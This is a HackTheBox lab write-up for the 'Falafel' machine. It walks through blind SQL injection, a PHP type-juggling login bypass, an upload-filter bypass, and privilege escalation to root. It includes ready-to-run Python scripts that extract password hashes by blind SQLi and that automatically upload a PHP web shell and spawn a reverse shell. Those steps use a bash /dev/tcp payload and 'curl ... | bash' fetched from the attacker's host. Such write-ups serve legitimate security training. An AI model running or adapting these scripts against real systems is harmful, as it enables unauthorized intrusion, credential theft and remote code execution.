

Falafel was one of the most interesing box I've done in HackTheBox. It's Linux and seted as Hard level. A web exploration with blind sqlinjection and type juggling. Then you need to byppass many upload filters to up a malicious php on the server.

You get as www-data, then you need to become mosh and after yossi, then you can become root.

The auto exploit for www-data is on the post. Hope you enjoy!

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.73
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

We try to open it on the browser


We run `Gobuster`, with .php, .html and .txt

```sh
gobuster dir -u http://10.10.10.73 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html -t 30
```


We found a bunch of pages in the fafael website. The only one interesting is the cyberlaw.txt


Seems that we have a user called chris, so let's get a fuzz on the username param to see if we get another user is this website

We got a error one on burpsuite


And mount our payload with wfuzz

```sh
wfuzz -c -w /usr/share/wordlists/rockyou.txt -d "username=FUZZ&password=test" -u http://10.10.10.73/login.php --hh 7074
```


Yes, we found chris and admin as valid usernames

## SQLInjection

When we send a simple quote after the username, we get an error


If we put only the username we got a user error


It's possibly a SQLInjection vulnerability to be explored

It's important to keep in mind that when our SQL injection is working, we get the error "Wrong identification" and when it does not, we get an error "Try again".

Now we should get the informations using UNION, for example the number of columns, but it's blocked on the server. We could try to use ORDER BY to get it too but it's not and error-based SQL Injection.

Since this is a SQL database, we could use substring `substring(string, position, length)` function. This will take a string or a column in the information and show me. 

And we get it

```
username=chris'AND+substring(username,1,1)='c'--+-&password=test
```


```
username=chris'AND+substring(username,1,1)='a'--+-&password=test
```


Now, let's automate it to extract the user hashes

# Auto SQLInjection Extract

First, we will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


```py
#!/usr/bin/python3
#Author: 0x4rt3mis
#Auto SQLI MySQL Version - Falafel HackTheBox

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
def getVersion(rhost):
    sqli_target = 'http://' + rhost +"/login.php"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    limit = 1
    char = 42
    prefix = []
    print("[+] The version of MySQL is.... [+]")
    while(char!=123):
        injection_string = "username=chris'AND+ascii(substring(version(),%d,1))=+%s+--+-&password=test" %(limit,char)
        response = r.post(sqli_target,proxies=proxies,verify=False,cookies=r.cookies, data=injection_string,headers=headers).text
        # On the if put a error message (not success)
        if "Try again.." not in response:
            prefix.append(char)
            limit=limit+1
            extracted_char = ''.join(map(chr,prefix))
            sys.stdout.write(extracted_char)
            sys.stdout.flush()
            char=42
        else:
            char=char+1
            prefix = []

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()

    rhost = args.target

    '''Here we call the functions'''
    # Let's get the version of it
    getVersion(rhost)

if __name__ == '__main__':
    main()
```

Now the next thing we need to do is use this same script to try to extract the password hash from admin and chris

Here it is, the chris hash and the admin hash


```py
#!/usr/bin/python3
#Author: 0x4rt3mis
#Auto SQLI Username Hash - Falafel HackTheBox

import argparse
import requests
import sys
import string

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def hashExtract(rhost,username):
    url = "http://%s" %rhost + "/login.php"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    password = []
    list = string.ascii_letters + string.digits
    limit = 1
    iterator = 0
    print("The hash for username %s is..." %username)
    while(iterator < len(list)):
        for c in list[iterator]:
            payload = "username=%s'AND+substring(password,%s,1)='%s'--+-&password=test" %(username,limit,c)
            res = requests.post(url, data=payload, proxies=proxies, headers=headers)
            if "Try again.." not in res.text:
                password.append(c)
                limit = limit + 1
                sys.stdout.write(c)
                sys.stdout.flush()
                iterator = 1
            else:
                iterator = iterator + 1
                password = []
    print()

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to try to extract the hash value', required=True)
    args = parser.parse_args()

    rhost = args.target
    username = args.username

    '''Here we call the functions'''
    # Let's get the user hash
    hashExtract(rhost,username)

if __name__ == '__main__':
    main()
```

We crack it and it's juggling the passwrod


The admin one was not possible to crack

We login as chris


Nothing special.

# PHP Type Juggling

We found this admin hash little weird. Type Juggling is when php tries to resolve an equality by making assumptions about the variable types.

[OWASP](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf) has a good talk about it. This hash starts with 0e, very odd.

Let's look for a number that would also result in a similar '0e..' like hash to send to the PHP. The reason why we're looking for something would result in that hash instead of justing sending 0 is because PHP would be converting whatever we send in to a hash first, and hash of 0 won’t give us what we want.

Upon searching 'php 0e hash collision', I find a page which has some strings and number listed that result in '0e' type hash.

[List](https://github.com/spaze/hashes/blob/master/md5.md) we have a good list of hashes which start with 0e. Any of them will work. I'll explain why...

This happen because the comparison the developer of the app did was not with ===

Use === as your default comparison. Only reach for == if you really need it.

Let's por example use the password QNKCDZO:0e830400451993494058024219903391 to login as admin


Success, we bypassed it. After when I got the source code I'll show you in the code how to identify it


# Upload Malicious

Now, seems to be an upload file

We try to upload `http://10.10.14.20/shell.png`


It reaches us and try to download the file. We cannot put any type of php file there, if the site get php in the name it does not work. We must find out a way to byppass it.

We look at the profile of admin and found some tips


Know your limit... Possible something relative to a kind of bruteforce. After I spent a good time in it, I decided to try to bruteforce the lenght of the file

We create a pattern with 300 chars

```sh
msf-pattern_create -l 300
```


And try to upload it


We see it try to upload but how the name is too large, gets an error


And it make a new name for the file. We get the last 4 digits of the new name and get the pattern offset

```sh
msf-pattern_offset -q h7Ah
```


232, so the file must be 232 max lenght

We create a 232 long chars

```sh
msf-pattern_create -l 232
```


And put .php.png on the end of it

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php.png
```


And now try to upload it


Still to large, but if we look at the name of the file that was saved

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php
```

Great! Possibly uploaded a PHP file

And we get RCE

```
http://10.10.10.73/uploads/1030-2052_e402b983e2e9e311/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php?cmd=id
```


And we have reverse shell


So, now, let's automate the reverse shell

# Auto Reverse Shell

We made a auto reverse shell to train our python skills

Here it is


rev_auto.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Reverse Shell - Falafel - HackTheBox

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler
import re
import urllib.parse
import os

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()
    
# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()
        
# Let's login as admin
def loginAdmin(rhost):
    print("[+] Let's login as Admin [+]")
    url = "http://%s:80/login.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "admin", "password": "QNKCDZO"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Login successss ! [+]")
    
# Let's create the malicious php file
def createPayload():
    print("[+] Creating the malicious file [+]")
    payload = "GIF89a;\n"
    payload += "<?php system($_REQUEST[\"cmd\"]); ?>"
    f = open("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php.png", "a")
    f.write(payload)
    f.close()
    print("[+] Created !!!! [+]")
    
# Let's create the shell.sh file
def createShell(lhost,lport):
    print("[+] Creating the malicious shell file [+]")
    payload = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    f = open("shell.sh", "w")
    f.write(payload)
    f.close()
    print("[+] Created !!!! [+]")
    
# Let's upload the malicious php file
def uploadMalicious(rhost,lhost,malicious):
    print("[+] Uploading the malicious file [+]")
    url = "http://%s:80/upload.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded", "Upgrade-Insecure-Requests": "1"}
    data = {"url": "http://%s/%s" %(lhost,malicious)}
    upup = r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    print("[+] Uploadeddededede ! [+]")
    upload_malicious = re.search('New name is (.*)', upup.text).group(1)
    upload_malicious = upload_malicious.removesuffix(".")
    folder = re.search('uploads/(.*);', upup.text).group(1)
    global upload_url
    upload_url = "uploads/" + folder + "/" + upload_malicious

# Trigger the reverse shell
def reverseShell(rhost,upload_url):
    print("[+] Now Let's Get The Reverse Shell!!!! [+]")
    payload = "cmd=curl+10.10.14.20/shell.sh|bash"
    urllib.parse.quote(payload, safe='')
    url = "http://%s:80/%s" %(rhost,upload_url)
    headers = {"Content-Type": "application/x-www-form-urlencoded", "Upgrade-Insecure-Requests": "1"}
    r.post(url, headers=headers, cookies=r.cookies, proxies=proxies, data=payload)
    # Cleaning up
    cleaningMess()

# Function to delete the files created
def cleaningMess():
    os.system("rm Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php.png")
    os.system("shell.sh")

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-ip', '--localip', help='Local ip address or hostname to receive the shell', required=True)
    parser.add_argument('-p', '--localport', help='Local port to receive the shell', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web python server
    webServer()
    # Create the payload file
    createPayload()
    # Create the sh file
    createShell(lhost,lport)
    # Login as admin
    loginAdmin(rhost)
    # Upload the malicious file
    malicious = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php.png"
    uploadMalicious(rhost,lhost,malicious)
    # Get the reverse shell
    reverseShell(rhost,upload_url)

if __name__ == '__main__':
    main()
```

# www-data --> moshe

We begin our privilege escalation on this box

On connection.php we an user and a password


We try su and become moshe


And with SSH we get a better shell


# moshe --> yossi

Now, we need to escalate to yossi.

This was really trickly, not easy to see the way to escalate.

We see that yossi is logged on the system and we are part of the group video


We look for files in /dev/ with group as video


By researching "/dev/fb0", it turns out that it is a Frame Buffer Device. “The frame buffer device provides an abstraction for the graphics hardware.” More about frame buffer device can be learned from the [docs](https://www.kernel.org/doc/Documentation/fb/framebuffer.txt)

If we "cat" the file in another file, we can save the contents of the frame buffer to a file


We transfer the file to our Kali


We read the file with `gimp` and see the password there


Adjust to better see it


At 1176 width the images is perfect. And we have the password of another user, time to escalate your privileges!

`MoshePlzStopHackingMe!`

So, we can ssh in the box with this password


How did I get these values?

```sh
cat /sys/class/graphics/fb0/virtual_size
```


Now, let's become root

# yossi --> Root

We list all files from the yossi's groups that we have access

Command got from noobsec

```sh
for i in $(groups);do echo -e "\n==========$i=========="; find / -group $i 2>/dev/null; done
```


We have access to /dev/sda1! It is the main partition of the Linux filesystem in which all the data is stored.


The way to access this file to get hold of a file is using `debugfs`

And then we get the ssh root key


Then we access it!


# Source Code Analysis

We copy the source code to our box

```sh
rsync -azP -i root@10.10.10.73:/var/www/html/* .
```


First let's search for the SQLInjection on the login form

This is the file `login_logic.php` which determines how the login logic will be done

We see on the first lines it just connect to the database and check if the username and password are being passed.

Then it sets the username and password variables

On line 24 and 25 we see something interesintg

```php
if(preg_match('/(union|\|)/i', $username) or preg_match('/(sleep)/i',$username) or preg_match('/(benchmark)/i',$username)){
    $message="Hacking Attempt Detected!";
```

It checks for bad words, that's why we did not use the union select to enumerate the database


On the rest of the code we see the query being formed

On line 30, it puts the username variable on the sql query without any kind of sanitization, and on the line 31 make the query to the database, triggering the sqlinjection


On line 35 we see the type jugglign working

```php
if($password == $users['password']){
```

It just make the == and checks the hash of the password we have on the database with the one we provided on the form, so that's it how it's working, and if it's success we are redirected to the upload.php file, which I'll explain now.

Now, `upload.php`

On the start of the file it checks for the site we provide, if it's really a website and for the format of the file we try to download

Line 26 and 27 checks the extension, and just allow, png, gif and jpg files

```php
$extension = strtolower($file['extension']);  
$whitelist = ['png', 'gif', 'jpg'];  
```


The rest of the file shows the download logic


Lines 37 and 38 makes the randomization of the file name

```php
$suffix  = bin2hex(openssl_random_pseudo_bytes(8));  
$userdir  = "${uploads}/${timestamp}_${suffix}";  
```

An dif it's succesfull all checks it downloads the file and save on the path

```php
$output = shell_exec($cmd);  
```

That's it.